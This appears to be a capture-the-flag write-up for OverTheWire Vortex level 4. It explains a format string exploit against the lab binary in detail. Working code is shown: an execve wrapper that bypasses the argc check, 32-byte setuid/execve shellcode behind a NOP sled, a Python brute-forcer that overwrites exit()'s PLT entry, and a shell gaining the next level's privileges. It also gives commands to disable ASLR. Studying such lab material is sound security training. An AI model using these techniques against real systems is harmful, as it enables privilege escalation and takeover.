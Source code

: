 ```yaml
---
title:  "[CTF] OverTheWire Vortex Level 4"
---
```


![Logo](/assets/images/vortex4.png)

## Context

[This level](http://overthewire.org/wargames/vortex/vortex4.html) looks like a simple 3 lines program, containing a common issue - format string vulnerability:
```c
int main(int argc, char **argv)
{
 if(argc) exit(0);
 printf(argv[3]);
 exit(EXIT_FAILURE);
}
```

## 1. Bypass the check for arguments count
The program exits if the _`argc`_ variable is different than 0. _`argc`_ represents the length of _`argv`_ array, which has on the first position the program name (the name appearing on top and like utilities, for example). So _`argc`_ is always >=1.
But If we know how arguments and environment variables are passed to the main function when executing the binary,  we can bypass the verification and also pass something meaningful to _`printf`_ in _`argv[3]`_ argument.  The stack looks like this:
```
| argc | argv[0] | argv[1] ... |argv[argc-1]| NULL |env[0]|...|env[n]|NULL|
```

Where the first _`NULL`_ indicates the end of the _`argv`_ array, and the second one the end of the environment variables array. So if we pass _`NULL`_ as the _`argv`_ array, when the program tries to access _`argv[3]`_, it will in fact access _`env[2]`_, because the stack would look like this (_`argv[0]`_ points to the _`NULL`_ byte):
```
| 0 | NULL | env[0] | env[1] | env[2] | ...
```

In Python I couldn't call one of the _`exec`_ functions with _`argv`_ set to _`NULL`_, so I've used another method:
```c
char exe[] = "/vortex/vortex4";
 
char* argv[] = { NULL }; 
char* env[] = {"env0", "env1", "TEST", NULL};
 
execve(exe, argv, env);
```

## 2.  Pass the format string attack into an environment variable
We have to find out the approximate location of the environment variables in the memory. The Vortex labs machine has ASLR disabled. We can test with and without ASLR to see the variation of the environment variables' address, using the following simple program:
```c
/* 
 * Test program to find the location of envirnment variables on stack.
 *  - test with/without ASLR
 * 
 * To disable ASLR: 
 * echo 0 > /proc/sys/kernel/randomize_va_space
 * 
 * To enable ASLR:
 * echo 2 > /proc/sys/kernel/randomize_va_space
 * 
 */
 
#include <stdio .h>
 
extern char **environ;
 
/* Return the current stack pointer */
unsigned long find_esp(void){
 // Copy stack pointer into EAX
    __asm__("mov %esp, %eax");
     
    // Return value of the function is in EAX
}
 
int  main() {
 char **env = NULL;
  
    for (env = environ; *env; ++env)
        printf("%p:\t%s\n", env, *env);
 
    unsigned long p = find_esp(); 
    printf ("Current stack pointer: Ox%lx\n" , p) ;
         
    return 0;
}
```

## 3. Redirect program flow
We decide an address to overwrite to change the flow of the program. We can use the same trick as in the previous level: replace the address of _`exit()`_ function in _`.plt`_, which is called at the end of the program. We find it by searching relocations sections in the binary:
```bash
vortex4@melissa:/vortex$ readelf -r ./vortex4
[..]
Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
 Offset     Info    Type            Sym.Value  Sym. Name
0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
```

## 4. Shellcode
We'll place a shellcode (I've used the same 32 bytes I've used in the previous level, _`setuid + execve`_) in  the environment variable, with a big NOP sled before (I've used 500 bytes). In the format string before, try to overwrite the address we found above, _`0x0804a00c`_ (which I've actually replaced in 4 bytes: _`0x0804a00c`_, _`0x0804a00d`_, _`0x0804a00e`_, _`0x0804a00f`_). 

This was the hardest part. I've made a Python wrapper over the C wrapper containing the _`execve`_ instruction, that passes and brute-forces different format strings.

A good exercise to test the vulnerability is to first try to read memory (using _`%x`_ or _`%s`_ instead of _`%n`_ for writing), to find the actual position of the format string on the stack. I actually found that I needed 106 bytes to get to the format string on the stack. A trick that can be used here: direct parameter access in printf (using **$**), detailed in the [Single Unix Specification ](http://pubs.opengroup.org/onlinepubs/7908799/xsh/fprintf.html). For me, I could access the format string with the following parameter:
```bash
fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
```
I've adjusted it with fillers ('.'), and tuned the offset until I reached the correct one, 106. The Python brute-forcing script:
```python
import subprocess
 
''' 
Script to pass the format string and address to be overwritten to
the vortex 4 wrapper binary
'''
 
# 4 bytes to be modified (address of exit() in .plt - 0x0804a00c)
addr =  "\x0c\xa0\x04\x08" + \
        "\x0d\xa0\x04\x08" + \
        "\x0e\xa0\x04\x08" + \
        "\x0f\xa0\x04\x08"
 
# Read it, after many trial and errors
#fmt = "AAAABBBBCCCCDDDD..." + "%106$x%107$x%108$x%109$x"
 
for i in range(1, 255):
        for j in range(1, 255):
                fmt = addr + "...." + \
                "%106$n%5$0" + str(i) + "d" + \
                "%107$n%5$0" + str(j) + "d" + \
                "%108$n" + \
                "%109$n"
                print "%d %d fmt: %s: " % (i, j, fmt)
                p = subprocess.Popen(['/tmp/myl4', fmt])
                 
                p.wait()
                # Ctrl-D to continue
```

And the C wrapper with _`execve`_ over vortex4 binary:
```c
/*
 * Wrapper over vortex 4 binary: 
 *  - byapss first argc check
 *  - pass shellcode in environment variable
 *  - receive format string from python wrapper (.. easier) 
 */
 
#include <stdio .h>
#include <string .h>
 
/* 32 bytes setuid(0) + execve("/bin/sh",["/bin/sh",NULL]); */
char shellcode[] = "\x6a\x17\x58\x31\xdb\xcd\x80\x31\xd2\x6a\x0b\x58\x52"
        "\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53"
        "\x89\xe1\xcd\x80";
 
char padding[500];
char NOP = '\x90';
int nops = 500;
 
int main(int argc, char **args) {
 char exe[] = "/vortex/vortex4";
 char sh[600] = {0};
  
 // Fill with lots of NOPs to make sure we reach the shellcode
 memset(padding, NOP, nops);
  
 memcpy(sh, padding, nops);
 memcpy(sh+nops, shellcode, strlen(shellcode));
  
 // argc wil be 0, because argv[0] is not set
 char* argv[] = { NULL }; 
 char* env[] = {"env0", "env1", args[1], sh, NULL};
 
 execve(exe, argv, env);
  
 return 0;actually
}
```

## 5. Put all the pieces together
```bash
vortex4@melissa:/tmp$ vim myl4.c
vortex4@melissa:/tmp$ vim myl4.py
vortex4@melissa:/tmp$ gcc -o myl4 myl4.c
vortex4@melissa:/tmp$ python myl4.py
[..]
202 33 fmt: 
���....%106$n%5$0202d%107$n%5$033d%108$n%109$n: 
$ id
uid=5004(vortex4) gid=5004(vortex4) euid=5005(vortex5) groups=5005(vortex5),5004(vortex4)
$ cat /etc/vortex_pass/vortex5
*****
```
